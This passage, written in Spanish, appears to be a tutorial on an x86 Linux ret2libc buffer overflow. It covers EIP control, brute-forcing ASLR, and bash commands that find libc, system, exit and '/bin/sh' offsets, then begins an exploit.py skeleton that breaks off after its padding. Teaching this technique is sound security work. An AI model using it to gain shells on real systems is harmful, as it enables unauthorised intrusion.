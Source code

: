 ### Con dichas direcciónes podríamos realizar el Buffer Overflow ingresando la cantidad de caracteres necesarios según el **offset**, para posteriormente una vez controlado el registro **EIP** apuntar a la dirección de **system**, luego **exit** y **"/bin/sh"**. 

### Ahora, en caso de que el **ASLR** este activado, las direcciones de memoria cambian constantemente, esto complica la labor del atacante, PERO, en maquinas *x86* las direcciones no son muy largas, por lo que si ejecutamos 1000+ veces el comando, pueden existir coincidencias, es decir, que al ser direcciones al no ser muy grandes muchas veces  las direcciones coincidirán entre si, es decir, debemos hacer uso de la *fuerza bruta*.

### Ejecutando muchas veces el binario hasta que **libc** valga una dirección, una vez que coincida la dirección *base* de **libc** deberíamos calcular las distancias para llegar a las direcciones reales de **system**, **exit** y **"/bin/sh"**. 

### Como dijimos, en este caso deberíamos tomar una dirección random de la librería **libc** para que con esta junto a los **offset** de las funciones mencionadas, calcular el espacio real en memoria: 

```bash
# Capturar una dirección de memoria base de libc 
ldd {binary} | grep libc | awk 'NF{print $NF}' | tr -d '()' 
# Instalar binutils para poder usar una herramienta para sacar los offset de las funciones 
sudo apt install binutils
# Hacer uso de "readelf" para obtener información de binarios elf (Listar la tabla de simbolos )
ldd {binary}
# stdout: 
#      linux-gate.so.1 =>  (0xb774a000)
#	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7588000)
#	/lib/ld-linux.so.2 (0xb774b000)

# libc_path = /lib/i386-linux-gnu/libc.so.6) 
# Obtener offset de las funciones para sumarselos a la direccion base de libc
readelf -s {libc_path} | grep -E " system| exit"

# Obtener el offset de la cadena "/bin/sh"
strings -a -t x {libc_path} | grep "/bin/sh"
```

### De esta manera, una vez obtenidas las direcciones, simplemente deberíamos sumarlas a la dirección base de *libc* y tendríamos el **buffer overflow x86 linux ret2libc** 

#### exploit.py
```python
#!/usr/bin/python3

import subprocess, sys
from struct import pack

# Global Vars

# ret2libc ---> system + exit + /bin/sh

offset = 112
before_eip = b"A"*offset
```
